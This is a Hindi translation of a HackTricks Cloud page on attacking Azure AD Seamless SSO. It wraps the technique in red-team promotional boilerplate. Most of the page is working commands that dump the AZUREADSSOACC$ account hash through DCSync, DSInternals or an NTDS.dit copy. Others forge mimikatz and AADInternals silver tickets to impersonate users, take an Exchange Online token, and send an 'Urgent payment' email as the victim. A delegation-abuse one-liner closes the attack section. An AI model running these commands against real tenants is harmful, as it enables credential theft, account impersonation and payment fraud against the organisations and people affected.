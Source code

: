 # Az - सीमलेस एसएसओ

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें!</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [सब्सक्रिप्शन प्लान्स](https://github.com/sponsors/carlospolop) देखें!
* [आधिकारिक PEASS & HackTricks स्वैग](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [NFTs](https://opensea.io/collection/the-peass-family) कलेक्शन, The PEASS Family, खोजें
* **डिस्कॉर्ड समूह** या **टेलीग्राम समूह** में शामिल हों या हमें **ट्विटर** पर फॉलो करें 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)।
* **हैकिंग ट्रिक्स साझा करें** और **HackTricks** और **HackTricks Cloud** github रेपो में PR जमा करके।

</details>

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उन उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट डिवाइस पर होते हैं** जो आपके कॉर्पोरेट नेटवर्क से कनेक्ट हैं। जब यह सक्षम होता है, **उपयोगकर्ताओं को अपने Azure AD में साइन इन करने के लिए अपना पासवर्ड टाइप करने की आवश्यकता नहीं होती है**, और आम तौर पर, अपने उपयोगकर्ता नाम भी टाइप नहीं करते हैं। यह सुविधा आपके उपयोगकर्ताओं को किसी भी अतिरिक्त ऑन-प्रेमिस घटक की आवश्यकता के बिना आपके क्लाउड-आधारित एप्लिकेशन्स तक आसान पहुंच प्रदान करता है।

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **ऑन-प्रेम डोमेन ज्वाइंड पीसी पर** होते हैं।

यह [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) द्वारा समर्थित है।

डेस्कटॉप एसएसओ **प्रमाणीकरण के लिए केरबेरोस** का उपयोग कर रहा है। जब कॉन्फ़िगर किया जाता है, Azure AD Connect ऑन-प्रेम AD में **AZUREADSSOACC`$`** नामक कंप्यूटर खाता बनाता है। `AZUREADSSOACC$` खाते का पासवर्ड कॉन्फ़िगरेशन के दौरान **सादा-पाठ में Azure AD को भेजा जाता है**।

**केरबेरोस टिकट** को **NTHash (MD4)** का उपयोग करके **एन्क्रिप्ट** किया जाता है और Azure AD भेजे गए पासवर्ड का उपयोग करके टिकटों को डिक्रिप्ट करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) उपलब्ध कराता है जो केरबेरोस **टिकट** को स्वीकार करता है। डोमेन-ज्वाइंड मशीन का ब्राउज़र इस एंडपॉइंट को एसएसओ के लिए टिकट फ़ॉरवर्ड करता है।

### ऑन-प्रेम -> क्लाउड

उपयोगकर्ता **`AZUREADSSOACC$` का पासवर्ड कभी नहीं बदलता**। इसलिए, एक डोमेन व्यवस्थापक **इस खाते के हैश को कंप्रोमाइज** कर सकता है, और फिर इसका उपयोग करके **किसी भी ऑन-प्रेम उपयोगकर्ता को सिंक करने के लिए सिल्वर टिकट बना सकता है**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
आप अब **सिल्वर टिकट** जेनरेट कर सकते हैं:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
**सिल्वर टिकट का उपयोग करने के लिए, निम्नलिखित चरणों को क्रियान्वित किया जाना चाहिए:**

1. **ब्राउज़र प्रारंभ करें:** Mozilla Firefox को लॉन्च किया जाना चाहिए।
2. **ब्राउज़र कॉन्फ़िगर करें:**
   - **`about:config`** पर जाएं।
   - [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) के लिए पसंद को निर्दिष्ट [मानों](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) पर सेट करें:
     - `https://aadg.windows.net.nsatc.net`
     - `https://autologon.microsoftazuread-sso.com`
3. **वेब एप्लिकेशन तक पहुंचें:**
   - संगठन के AAD डोमेन के साथ एकीकृत वेब एप्लिकेशन पर जाएं। एक सामान्य उदाहरण है [Office 365](https://portal.office.com/)।
4. **प्रमाणीकरण प्रक्रिया:**
   - लॉगऑन स्क्रीन पर, उपयोगकर्ता नाम दर्ज करें, पासवर्ड फील्ड खाली छोड़ दें।
   - आगे बढ़ने के लिए, या तो TAB दबाएं या ENTER दबाएं।

{% hint style="success" %}
यह MFA को अगर सक्षम किया गया है तो नहीं बाईपास करता है।
{% endhint %}

#### ~~क्लाउड-केवल उपयोगकर्ताओं के लिए कर्बेरोस टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि एक्टिव डायरेक्टरी प्रशासकों के पास Azure AD Connect तक पहुंच है, तो वे **किसी भी क्लाउड उपयोगकर्ता के लिए SID सेट कर सकते हैं**। इस तरह कर्बेरोस **टिकट** को **क्लाउड-केवल उपयोगकर्ताओं के लिए भी बनाया जा सकता है**। एकमात्र आवश्यकता है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
क्लाउड-केवल व्यवस्थापक उपयोगकर्ताओं के SID बदलना अब **माइक्रोसॉफ्ट द्वारा अवरुद्ध है**।\
जानकारी के लिए देखें [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### ऑन-प्रेम -> क्लाउड के माध्यम से संसाधित प्रतिबंधित डेलीगेशन <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

किसी भी व्यक्ति जो इस खाते में है (`AZUREADSSOACC$`) कंटेनर या OU में कंप्यूटर खातों का प्रबंधन कर सकता है, वह **एक संसाधित प्रतिबंधित डेलीगेशन कॉन्फ़िगर कर सकता है और इसे एक्सेस कर सकता है**।
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: मैं आपके बादल में हूं, सभी के ईमेल पढ़ रहा हूं - Active Directory के माध्यम से Azure AD हैकिंग](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ शून्य से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
